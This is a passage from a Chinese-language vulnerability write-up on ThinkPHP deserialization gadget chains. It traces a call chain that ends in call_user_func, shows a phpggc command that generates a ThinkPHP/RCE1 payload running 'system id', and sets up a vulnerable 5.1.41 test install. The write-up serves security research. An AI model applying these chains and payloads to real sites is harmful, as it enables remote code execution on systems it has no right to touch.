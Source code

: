 ```
think\process\pipes\Windows#__destruct -->
think\process\pipes\Windows#removeFiles -->
file_exists --> 
think\model\Pivot#__toString --> 
think\model\Pivot#toJson --> 
think\model\Pivot#toArray --> 
$value->getAttr($attr) --> 
think\console\Output#__call --> 
think\console\Output#block --> 
think\console\Output#writeln --> 
think\console\Output#write --> 
$this->handle->write --> 
think\session\driver\Memcached#write --> 
$this->handler->set --> 
think\cache\driver\Memcache#set --> 
think\cache\driver\Memcache#has -->
$this->handler->get --> 
think\Request#get --> 
think\Request#input --> 
think\Request#filterValue --> 
call_user_fund($filter, $value)
```

ps: 该链子的前半部分可以使用FW1链子的前半部分 ,也就是

```
think\Process#__destruct --> 
think\Process#stop --> 
think\model\relation\HasMany#close --> 
think\model\relation\HasMany#__call --> 
think\model\relation\HasMany#baseQuery --> 
think\console\Output#where --> 
think\console\Output#__call
```

## 5.1.x-5.2.x RCE

### 环境搭建

```
./phpggc ThinkPHP/RCE1 system id | base64 -w 0
```

```
composer create-project topthink/think=5.1.41 thinkphp5141  --prefer-dist
```

和之前一样,写入一个反序列化入口.

### 漏洞分析

首先,反序列化进入`think\process\pipes\Windows#__destruct`, 进入`removeFiles`方法

![image-20220120152925122](../images/phpggc-thinkphp/image-20220120152925122.png)
